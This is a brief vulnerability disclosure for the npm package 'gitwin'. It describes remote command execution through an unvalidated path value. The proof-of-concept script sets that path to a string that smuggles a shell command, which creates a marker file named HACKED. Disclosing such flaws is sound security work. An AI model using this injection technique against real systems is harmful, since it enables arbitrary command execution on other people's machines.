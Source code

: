 # Description

The `gitwin` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var _gitwin = require('gitwin');
var gitwin = new _gitwin();
gitwin.path = "test; touch HACKED; #";
gitwin.pull();

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i gitwin # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
